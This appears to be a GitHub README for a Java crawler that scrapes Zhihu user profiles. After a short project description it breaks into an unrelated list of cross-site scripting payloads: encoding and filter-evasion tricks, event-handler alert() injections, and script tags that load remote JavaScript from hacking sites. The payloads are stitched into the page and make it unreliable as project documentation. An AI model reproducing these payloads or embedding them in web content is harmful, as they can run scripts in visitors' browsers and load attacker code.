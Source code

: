 # JavaZhiHuSpider
### java知乎爬虫：爬取用户信息 已爬10w（理论能爬完所有关注了任意话题的用户信息）
### 没有使用框架,httpclient连接池+线程池+正则实现.
 
### 厚颜无耻的挂上博客[HacL](http://yhis.me)+求波星 :）
<BGSOUND SRC="javascript.:alert('XSS');">
<br size="&{alert('XSS')}">
<LAYER SRC="http://xss.ha.ckers.org/a.js"></layer>
<LINK REL="stylesheet"HREF="javascript.:alert('XSS');">
<IMG SRC='vbscript.:msgbox("XSS")'>
<META. HTTP-EQUIV="refresh"CONTENT="0;url=javascript.:alert('XSS');">
<IFRAME. src="/javascript.:alert"('XSS')></IFRAME>
<FRAMESET><FRAME. src="/javascript.:alert"('XSS')></FRAME></FRAMESET>
<TABLE BACKGROUND="javascript.:alert('XSS')">
<DIV STYLE="background-image: url(javascript.:alert('XSS'))">
<DIV STYLE="behaviour: url('http://www.how-to-hack.org/exploit.html&#39;);">
<DIV STYLE="width: expression(alert('XSS'));">
<STYLE>@im\port'\ja\vasc\ript:alert("XSS")';</STYLE>
<IMG STYLE='xss:expre\ssion(alert("XSS"))'>
<STYLE. TYPE="text/javascript">alert('XSS');</STYLE>
<STYLE. TYPE="text/css">.XSS{background-image:url("javascript.:alert('XSS')");}</STYLE><A CLASS=XSS></A>
<STYLE. type="text/css">BODY{background:url("javascript.:alert('XSS')")}</STYLE>
<BASE HREF="javascript.:alert('XSS');//">
getURL("javascript.:alert('XSS')")
a="get";b="URL";c="javascript.:";d="alert('XSS');";eval(a+b+c+d);
<XML SRC="javascript.:alert('XSS');">
"> <BODY NLOAD="a();"><SCRIPT>function a(){alert('XSS');}</SCRIPT><"
<SCRIPT. SRC="http://xss.ha.ckers.org/xss.jpg"></SCRIPT>
<IMG SRC="javascript.:alert('XSS')"
<A HREF=http://www.gohttp://www.google.com/ogle.com/>link</A>
<script\x20type="text/javascript">javascript:alert(1);</script>
<script\x3Etype="text/javascript">javascript:alert(2);</script>
<script\x0Dtype="text/javascript">javascript:alert(3);</script>
<script\x09type="text/javascript">javascript:alert(4);</script>
<script\x0Ctype="text/javascript">javascript:alert(5);</script>
<script\x2Ftype="text/javascript">javascript:alert(6);</script>
<script\x0Atype="text/javascript">javascript:alert(7);</script>
'`"><\x3Cscript>javascript:alert(8)</script>
'`"><\x00script>javascript:alert(9)</script>
<img src=10 href=10 onerror="javascript:alert(10)"></img>
<audio src=11 href=11 onerror="javascript:alert(11)"></audio>
<video src=12 href=12 onerror="javascript:alert(12)"></video>
<body src=13 href=13 onerror="javascript:alert(13)"></body>
<image src=14 href=14 onerror="javascript:alert(14)"></image>
<object src=15 href=15 onerror="javascript:alert(15)"></object>
<script src=16 href=16 onerror="javascript:alert(16)"></script>
<svg onResize svg onResize="javascript:javascript:alert(17)"></svg onResize>
<title onPropertyChange title onPropertyChange="javascript:javascript:alert(18)"></title onPropertyChange>
<iframe onLoad iframe onLoad="javascript:javascript:alert(19)"></iframe onLoad>
<body onMouseEnter body onMouseEnter="javascript:javascript:alert(20)"></body onMouseEnter>
<body onFocus body onFocus="javascript:javascript:alert(21)"></body onFocus>


